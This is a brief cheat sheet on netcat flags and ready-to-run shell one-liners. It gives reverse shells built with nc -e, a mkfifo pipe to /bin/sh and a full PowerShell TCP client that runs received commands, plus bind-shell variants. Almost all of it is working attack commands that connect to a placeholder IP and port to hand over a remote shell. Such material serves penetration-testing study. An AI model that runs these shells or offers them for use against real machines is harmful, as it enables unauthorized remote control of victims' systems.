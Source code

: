 **Operators** 

-l Listen mode 
-p Specify the Port number (use common ports)
-n Numeric only; no resolution of hostnames via DNS 
-v Verbose output (optional, yet useful to discover any bugs) 
-vv Very Verbose (optional) 
-k Keep listening after client disconnects


**Reverse Shell:**

**As Server:**

```
nc -[options] {Port}
```


**As Client (Target):**
```
nc {IP} {PORT} -e [/bin/bash OR "cmd.exe"]
```
OR
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
OR (Windows One Liner)
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


**Bind Shell:**

**As Client (Target):**

```
nc -lvnp <port> -e "cmd.exe"
```  
	OR
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

**As Server:**

```
nc MACHINE_IP <port>
```